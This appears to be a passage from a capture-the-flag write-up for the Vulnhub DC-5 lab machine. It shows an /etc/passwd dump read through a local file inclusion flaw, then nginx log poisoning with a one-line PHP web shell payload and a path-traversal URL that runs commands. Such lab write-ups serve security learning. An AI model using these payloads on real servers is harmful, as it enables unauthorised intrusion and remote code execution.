 ```
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
sshd:x:107:65534::/var/run/sshd:/usr/sbin/nologin
dc:x:1000:1000:dc,,,:/home/dc:/bin/bash
mysql:x:108:113:MySQL Server,,,:/nonexistent:/bin/false
```

If the webapplication has a LFI vulnerability, it might be logging some details in the nginx log file. If this is the case, we might have the opportunity to inject PHP code. It are a lot of `if's`, but if this is working we might have luck and gain a reverse shell. This vulnerability is called  Log Poisoning as well. #Log-Poisoning

Now let's use our Google Fu to find where the logging is stored for nginx
```
https://www.google.com/search?q=nginx+access+log+location+linux
```

	By default, the access log is located at **/var/log/nginx/access.** **log** , and the information is written to the log in the predefined combined format.

So let's try to open the access.log file in the webbrowser.
```
http://10.0.2.34/thankyou.php?file=/var/log/nginx/access.log
```
![Image](/assets/img/WriteUp/Vulnhub/DC5/Pasted image 20230327163219.png){: width="700" height="400" }


It alerts me with the IP address of the host. Perhaps some old logging is stored with an XSS vulnerability.

Now let's try to poison the logging.
```
<?php system($_GET['cmd']) ?>
```

![Image](/assets/img/WriteUp/Vulnhub/DC5/Pasted image 20230327165740.png){: width="700" height="400" }


This will probably inject the PHP code into the error.log file.

![Image](/assets/img/WriteUp/Vulnhub/DC5/Pasted image 20230327164803.png){: width="700" height="400" }

Now let's try the cmd to exploit withing the error.log file.
```
http://10.0.2.34/thankyou.php?file=../../../../../..//var/log/nginx/error.log&cmd=id
```

![Image](/assets/img/WriteUp/Vulnhub/DC5/Pasted image 20230327165544.png){: width="700" height="400" }
